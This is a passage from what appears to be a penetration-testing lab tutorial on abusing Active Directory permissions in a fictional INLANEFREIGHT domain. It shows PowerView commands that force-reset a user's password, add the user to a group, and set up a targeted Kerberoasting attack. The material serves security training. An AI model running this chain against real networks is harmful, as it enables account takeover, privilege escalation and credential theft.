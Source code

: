 So, first, we must authenticate as `wley` and force change the password of the user `damundsen`. We can start by opening a PowerShell console and authenticating as the `wley` user. Otherwise, we could skip this step if we were already running as this user. To do this, we can create a [PSCredential object](https://docs.microsoft.com/en-us/dotnet/api/system.management.automation.pscredential?view=powershellsdk-7.0.0).

```powershell
$SecPassword = ConvertTo-SecureString '<transporter@4>' -AsPlainText -Force
```

```powershell
$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\wley', $SecPassword)
```

Next, we must create a [SecureString object](https://docs.microsoft.com/en-us/dotnet/api/system.security.securestring?view=net-6.0) which represents the password we want to set for the target user `damundsen`.

```powershell
$damundsenPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
```

Finally, we'll use the [Set-DomainUserPassword](https://powersploit.readthedocs.io/en/latest/Recon/Set-DomainUserPassword/) PowerView function to change the user's password. We need to use the `-Credential` flag with the credential object we created for the `wley` user.

```powershell
Import-Module .\PowerView.ps1
```

```powershell
Set-DomainUserPassword -Identity damundsen -AccountPassword $damundsenPassword -Credential $Cred
```

Next, we need to perform a similar process to authenticate as the `damundsen` user and add ourselves to the `Help Desk Level 1` group.

```powershell
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
```

```powershell
$Cred2 = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\damundsen', $SecPassword)
```

Next, we can use the [Add-DomainGroupMember](https://powersploit.readthedocs.io/en/latest/Recon/Add-DomainGroupMember/) function to add ourselves to the target group.

```powershell
Add-DomainGroupMember -Identity 'Help Desk Level 1' -Members 'damundsen' -Credential $Cred2
```

Confirming:

```powershell
Get-DomainGroupMember -Identity "Help Desk Level 1" | Select MemberName
```

At this point, we should be able to leverage our new group membership to take control over the `adunn` user. Now, let's say that our client permitted us to change the password of the `damundsen` user, but the `adunn` user is an admin account that cannot be interrupted. Since we have `GenericAll` rights over this account, we can have even more fun and perform a targeted Kerberoasting attack by modifying the account's [servicePrincipalName attribute](https://docs.microsoft.com/en-us/windows/win32/adschema/a-serviceprincipalname) to create a fake SPN that we can then Kerberoast to obtain the TGS ticket and (hopefully) crack the hash offline using Hashcat.
